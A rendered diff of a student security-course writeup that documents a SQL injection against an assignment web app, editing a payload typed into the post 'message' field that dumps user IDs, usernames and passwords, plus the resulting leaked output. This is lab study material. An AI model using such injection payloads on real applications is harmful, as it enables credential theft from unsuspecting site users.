

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, the part around one of its changes. Drawn GitHub-style.

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -296,10 +296,10 @@ def posts():
 
 In the SQL query `INSERT INTO posts (message, user) VALUES ('...`, it is possible to dump the session tokens or even the username and password!
 
-This can be done by crafting the `message` that will interpret it as SQL query.
+This can be done by crafting the `message`
 
 ```sql
-1', 1), ((SELECT GROUP_CONCAT(username || ':' || password, '<br>') FROM users), 1)--
+1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--
 ```
 
 And once executed, this should return the home page with its posts.
@@ -307,7 +307,7 @@ And once executed, this should return the home page with its posts.
 ```HTML
 ...
 <li>1</li>
-<li>alice:12345678</li>
+<li>1,alice:12345678</li>
 ...
 ```
 
````
Also changed, not shown: other parts of Machine_Problem_3/writeup.md (+148 -2 lines).
